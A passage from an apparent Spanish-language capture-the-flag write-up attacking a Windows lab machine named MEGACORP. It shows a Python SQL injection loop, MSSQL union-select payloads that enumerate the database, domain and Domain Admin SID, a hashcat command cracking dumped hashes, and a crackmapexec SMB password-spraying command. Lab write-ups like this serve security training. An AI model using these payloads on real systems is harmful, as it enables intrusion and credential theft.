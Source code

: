 ```python
		sqli = input("> ")
		sqli = sqli.strip()
		
		sqli_mod = getUnicode(sqli)
		
		response_json = makeRequests(sqli_mod)
		print(response_json)
```

 -----------
#### Database enumeration through the previously created utility 

Con el script antes programado, podemos intentar enumerar la base de datos. Como es un **Microsoft Windows** la manera de enumerar la base de datos es algo distinto a lo tradicional (mysql, postgres).  Para listar la base que esta actualmente en uso podemos usar:

```mysql
> test' union select 1,db_name(),3,4,5-- -
```

Y por lo demas, seria igual que **mysql**.

#### Cracking Passwords  

En la base de datos logramos dumpear multiples hashes con sus respectivos usuarios. Podemos intentar romper estos hashes de manera *offline* para dar con la verdadera contraseña.
Podemos intentar con **John** para lamentablemente no identifica este tipo de hashes. Lo haremos con **hashcat** y sera de la siguiente manera:
```
hashcat -m 17900 -a 0 hash rockyou.txt --user
```

Con las contraseñas descubiertas, podemos crear un diccionario para hacer algunas pruebas.

#### Active Directory Enumeration

Con las contraseñas dumpeadas, podemos intentar un ataque de fuerza bruta sobre el servicio **smb** con **crackmapexec** de la siguiente manera:
```
# crackmapexec smb ip -u list_user.txt -p list_passwords --continue-on-success
```

--------------------
#### Enumerating domain information through SQL injection 

No encontramos ninguna credencial valida. Lo que haremos a continuacion sera volver a nuestro script de **SQLi** e intentar enumerar algunas cosas interesantes del **Active Directory**. Por un lado podemos listar el nombre del *dominio*:
```
> test' union select 1,default_domain(),3,4,5-- -
```

Podemos listar informacion de usuarios del directivo activo, en este caso listaremos informacion del **Domain Admin**:
```
> test' union select 1,SUSER_SID('MEGACORP\Administrator'),3,4,5-- -
```

